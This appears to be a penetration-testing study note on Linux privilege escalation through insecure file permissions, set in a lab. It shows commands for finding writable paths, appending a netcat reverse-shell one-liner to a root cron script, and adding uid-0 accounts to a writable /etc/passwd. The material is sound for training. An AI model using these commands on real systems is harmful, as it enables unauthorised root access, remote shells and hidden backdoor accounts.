 ```yaml
---
description: >-
  Insecure File Permissions (Linux)
title: Insecure File Permissions (Linux)           # Add title here
date: 2022-11-09 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Linux - Insecure File Permissions]                     # Change Templates to Writeup
tags: [insecure file permissions, linux privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Writable and executable file
In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. Useful commands are:
```bash
find / -perm -0002 -type d 2>/dev/null
find / -perm -0020 -type d 2>/dev/null
```

On a Linux system, the cron time-based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

For the purpose of this example, we will SSH to our dedicated Debian client. In a previous section, we showed where to look on the filesystem for installed cron jobs on a target system. We could also inspect the cron log file (/var/log/cron.log) for running cron jobs:

```bash
student@debian:~$ grep "CRON" /var/log/cron.log
Jan27 15:55:26 victim cron[719]: (CRON) INFO (pidfile fd = 3)
Jan27 15:55:26 victim cron[719]: (CRON) INFO (Running @reboot jobs)
...
Jan27 17:45:01 victim CRON[2615]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:50:01 victim CRON[2631]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:55:01 victim CRON[2656]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 18:00:01 victim CRON[2671]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
```

No that we know the location of the script, we can inspect its contents and permissions.
```bash
student@debian:~$ cat /var/scripts/user_backups.sh
#!/bin/bash

cp -rf /home/student/ /var/backups/student/

student@debian:~$ ls -lah /var/scripts/user_backups.sh 
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
```

Since an unprivileged user can modify the contents of the backup script, we can edit it and add a reverse shell one-line. If our plan works, we should receive a root-level reverse shell on our attacking machine after, at most, a five minute period.

```bash
student@debian:/var/scripts$ echo >> user_backups.sh 

student@debian:/var/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

student@debian:/var/scripts$ cat user_backups.sh
#!/bin/bash

cp -rf /home/student/ /var/backups/student/


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```

### /etc/passwd

If the /etc/passwd file has writable permission we can add a line to /etc/passwd using the appropriate format:

```bash
student@debian:~$ openssl passwd evil
AK24fcSx2Il3I

student@debian:~$ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd

student@debian:~$ su root2
Password: evil

root@debian:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Secondary Option:
```bash
openssl passwd -1 -salt doom doom
    
echo 'doom:$1$doom$m/meYVrO7ZsSmCo1/p4v..:0:0:Hacker:/root:/bin/bash' >> /etc/passwd
```